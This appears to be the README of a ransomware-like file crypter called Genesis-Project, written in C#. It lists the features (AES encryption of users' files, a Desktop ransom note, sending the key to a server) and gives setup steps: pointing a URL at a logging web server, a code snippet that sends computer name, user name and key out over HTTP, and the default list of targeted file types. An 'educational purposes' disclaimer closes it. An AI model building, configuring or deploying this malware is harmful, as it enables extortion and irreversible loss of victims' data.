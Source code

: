 ```
╔═══╗
║╔═╗║
║║─╚╬══╦═╗╔══╦══╦╦══╗
║║╔═╣║═╣╔╗╣║═╣══╬╣══╣
║╚╩═║║═╣║║║║═╬══║╠══║
╚═══╩══╩╝╚╩══╩══╩╩══╝

```


# Genesis-Project

It's a ransomware-like file crypter sample which can be modified for specific purposes. 

## **Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)

## **Usage**


* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/genesis-project/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## **Legal Warning** 

While this may be helpful for some, there are significant risks. Genesis Project may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
